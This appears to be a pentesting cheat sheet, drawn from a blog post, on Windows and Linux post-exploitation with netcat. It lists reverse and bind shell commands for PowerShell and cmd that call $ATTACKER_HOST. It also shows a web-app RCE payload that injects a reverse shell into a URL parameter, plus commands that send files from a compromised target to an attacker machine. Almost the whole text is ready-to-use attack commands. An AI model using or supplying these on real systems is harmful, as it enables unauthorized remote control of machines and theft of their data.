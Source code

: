 #file-transfer #netcat

*Source:* https://int0x33.medium.com/day-24-windows-post-exploitation-shells-and-file-transfer-with-netcat-for-windows-a2ddc3557403 

# Using Windows

Get the 32bit version [here](https://github.com/int0x33/nc.exe/blob/master/nc.exe?source=post_page-----a2ddc3557403--------------------------------).
And the 64bit version [here](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403--------------------------------).

## Uploading Files

A good tip that often comes in handy is to base64 encode a file, then simply copy the base64 blob to a file via a vuln or RCE and either decode first or after depending on your RCE situation. If you try and copy a file as-is in many situations the troublesome contents like language operators or null bytes etc will break the connection, application or worse, crash the target host.

## Reverse Powershell

	#32bit  
	nc.exe $ATTACKER_HOST $ATTACKER_PORT -e powershell  
	#64bit  
	nc64.exe $ATTACKER_HOST $ATTACKER_PORT -e powershell

Example RCE on web app:

	http://vulnerable.com?pageId=nc64.exe 10.10.10.10 1337 -e powershell

Of course in the wild, we would url encode it:

	http://vulnerable.com?pageId=nc64.exe%2010.10.10.10%201337%20-e%20powershell

## Bind Powershell

	#32bit  
	nc.exe -l -p $LISTENPORT -e powershell  
	#64bit  
	nc64.exe -l -p $LISTENPORT -e powershell

## Reverse Shell

	#32bit  
	nc.exe $ATTACKER_HOST $ATTACKER_PORT -e cmd  
	#64bit  
	nc64.exe $ATTACKER_HOST $ATTACKER_PORT -e cmd

## Bind Shell

	#32bit  
	nc.exe -l -p $LISTENPORT -e cmd  
	#64bit  
	nc64.exe -l -p $LISTENPORT -e cmd

## Transfer File

**Sender (Unix)**

	nc $TARGET $PORT < $FILE

**Receiver (Windows)**

	#32bit  
	nc.exe -l -p $LISTENPORT > $FILE  
	#64bit  
	nc64.exe -l -p $LISTENPORT > $FILE

# Using Linux

After establishing a reverse shell on the target machine, we simply start a netcat client on our attacker machine in a new terminal:

	nc -lnvp 1234

And then we transfer the file on the target machine in the reverse shell terminal:

	nc $ATTACKER_IP 1234 < $FILE

